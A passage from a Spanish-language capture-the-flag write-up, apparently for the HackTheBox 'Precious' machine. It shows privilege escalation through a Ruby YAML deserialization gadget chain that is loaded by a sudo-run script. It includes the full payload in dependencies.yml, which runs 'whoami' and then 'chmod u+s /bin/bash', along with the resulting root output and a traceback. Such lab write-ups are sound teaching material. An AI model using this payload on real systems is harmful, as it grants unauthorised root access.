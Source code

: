 ```bash
             git_set: whoami
         method_id: :resolve
henry@precious:~$ 
```

Ahora vamos a ejecutarlo y nos esta ejecutando el comando ahora podemos poner la bash `SUID` para lanzarnos una bash privilegiada y ser root directamente

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
root
```

```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod u+s /bin/bash"
         method_id: :resolve
henry@precious:~$ 

```

Ahora vamos a ejecutar otra vez

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
```